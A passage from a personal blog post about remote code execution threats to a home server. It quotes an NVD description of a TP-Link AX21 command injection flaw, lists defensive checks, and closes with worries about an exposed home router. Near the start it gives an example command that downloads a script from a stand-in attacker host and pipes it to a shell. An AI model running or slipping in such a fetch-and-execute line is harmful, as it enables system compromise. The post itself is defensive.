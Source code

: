 5. Remote Loading and Execution
   Server-side code allows loading and executing scripts from remote URLs, for example:
   ```shell
   wget http://attacker.com/x.sh | sh
   ```

:::

Searching for this vulnerability on the NVD website, I found that it is a vulnerability that only exists in specific TP-Link firmware versions.

>**TP-Link Archer AX21 (AX1800) firmware versions before 1.1.4 Build 20230219** contained a command injection vulnerability in the country form of the /cgi-bin/luci;stok=/locale endpoint on the web management interface.
Specifically, the country parameter of the write operation was not sanitized before being used in a call to popen(), allowing an unauthenticated attacker to inject commands, which would be run as root, with a simple POST request.

## Countermeasures
Although my server does not have this vulnerability, to prevent other RCE attacks, some security checks and defensive measures are still necessary.

1. Add unknown IPs to the blacklist
2. Check all open ports and only keep necessary ports open
3. Update system security patches
4. Check for abnormal scheduled tasks/processes
```shell
crontab -l
ps | grep -v '\[' | grep -v 'root'
```

## Afterword

Writing to this point, I suddenly realized that my home broadband is dialed through an OpenWRT router and connected via the bridge mode of the optical modem, which seems to be exposed to the public internet and also has the risk of being scanned and attacked by malicious scripts. I need to check the firewall rules.
This network connection method has been used for two or three years without updating the router firmware. If it were truly attacked by malicious scripts, I can't imagine the consequences for all devices at home, including the NAS.

